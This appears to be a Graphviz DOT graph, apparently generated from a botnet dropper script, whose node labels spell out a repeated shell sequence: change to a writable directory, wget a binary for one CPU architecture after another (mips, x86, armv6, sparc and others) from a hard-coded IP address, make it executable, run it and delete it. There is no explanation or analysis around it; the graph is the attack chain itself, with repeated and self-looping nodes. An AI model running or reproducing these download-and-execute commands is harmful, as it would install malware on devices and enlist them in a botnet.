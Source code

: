 digraph {
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 10 [label="||,"];
10 [label="wget http://158.69.215.106/mips "];
10 -> 12 [label=";,"];
12 [label="chmod +x mips "];
12 -> 14 [label=";,"];
14 [label="./mips "];
14 -> 16 [label=";,"];
16 [label="rm -rf mips "];
16 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 28 [label="||,"];
28 [label="wget http://158.69.215.106/mipsel "];
28 -> 30 [label=";,"];
30 [label="chmod +x mipsel "];
30 -> 32 [label=";,"];
32 [label="./mipsel "];
32 -> 34 [label=";,"];
34 [label="rm -rf mipsel "];
34 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 46 [label="||,"];
46 [label="wget http://158.69.215.106/sh4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x sh4 "];
48 -> 50 [label=";,"];
50 [label="./sh4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf sh4 "];
52 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 64 [label="||,"];
64 [label="wget http://158.69.215.106/x86 "];
64 -> 66 [label=";,"];
66 [label="chmod +x x86 "];
66 -> 68 [label=";,"];
68 [label="./x86 "];
68 -> 70 [label=";,"];
70 [label="rm -rf x86 "];
70 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 82 [label="||,"];
82 [label="wget http://158.69.215.106/armv6 "];
82 -> 84 [label=";,"];
84 [label="chmod +x armv6 "];
84 -> 86 [label=";,"];
86 [label="./armv6 "];
86 -> 88 [label=";,"];
88 [label="rm -rf armv6 "];
88 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 100 [label="||,"];
100 [label="wget http://158.69.215.106/i686 "];
100 -> 102 [label=";,"];
102 [label="chmod +x i686 "];
102 -> 104 [label=";,"];
104 [label="./i686 "];
104 -> 106 [label=";,"];
106 [label="rm -rf i686 "];
106 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 118 [label="||,"];
118 [label="wget http://158.69.215.106/ppc "];
118 -> 120 [label=";,"];
120 [label="chmod +x ppc "];
120 -> 122 [label=";,"];
122 [label="./ppc "];
122 -> 124 [label=";,"];
124 [label="rm -rf ppc "];
124 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 136 [label="||,"];
136 [label="wget http://158.69.215.106/i586 "];
136 -> 138 [label=";,"];
138 [label="chmod +x i586 "];
138 -> 140 [label=";,"];
140 [label="./i586 "];
140 -> 142 [label=";,"];
142 [label="rm -rf i586 "];
142 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 154 [label="||,"];
154 [label="wget http://158.69.215.106/pftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pftp "];
156 -> 158 [label=";,"];
158 [label="./pftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf pftp "];
160 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 172 [label="||,"];
172 [label="wget http://158.69.215.106/sparc "];
172 -> 174 [label=";,"];
174 [label="chmod +x sparc "];
174 -> 176 [label=";,"];
176 [label="./sparc "];
176 -> 177 [label=";,"];
}
